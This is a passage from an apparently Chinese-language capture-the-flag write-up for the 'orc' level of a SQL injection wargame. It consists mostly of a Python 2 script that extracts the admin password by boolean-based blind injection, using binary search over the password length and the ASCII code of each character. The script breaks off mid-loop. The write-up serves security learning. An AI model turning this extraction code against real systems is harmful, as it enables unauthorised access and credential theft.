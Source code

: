 接下来目标就是如何取得我要的那一行，并且可以盲注的limit ,order by,desc等等，这里我就用了这一种方式

![9](https://myndtt.github.io/images/9.png)

## 0x02.解决

但知道重点以后就是改一下代码了

```python
import urllib
import urllib2
def getlength():
    url = 'http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw='
    s=0
    t=30
    while (s<t):
        if (t-s==1):
            if doinject('\'||ascii(id)=97%26%26length(pw)='+str(t)+'%23'):
                m=t
                break
            else:
                m=s
                break
        m=(s+t)/2
        if doinject('\'||ascii(id)=97%26%26length(pw)>'+str(m)+'%23'):
            s=m+1
        else:
            t=m
    print '[*]length is %s' % m
    return m
def doinject(payload):
    url = 'http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw='
    #print payload
    url=url+payload
    #print url
    user_agent = 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)'
    info = { 'User-Agent' : user_agent,
                'cookie':'__cfduid=dad2e2829958f82d5741ad845023671931508994468; PHPSESSID=4jr3sjglvj111r061sif5d2m51'
              }
    req = urllib2.Request(str(url),headers=info)
    response = urllib2.urlopen(req)
    the_page = response.read()
    #print the_page
    if (the_page.find("Hello admin")>1):
        return True
    else:
        return False
    
if __name__=='__main__':
		a=getlength()+1
		res = ""
		for i in range(1,a):
			s=0
			t=127
			while (s<t):
				if (t-s==1):
					if doinject('\'||ascii(id)=97%26%26ascii(substr(pw,'+str(i)+',1))='+str(t)+'%23'):#important 
						m=t
						break
					else:
						m=s
						break
```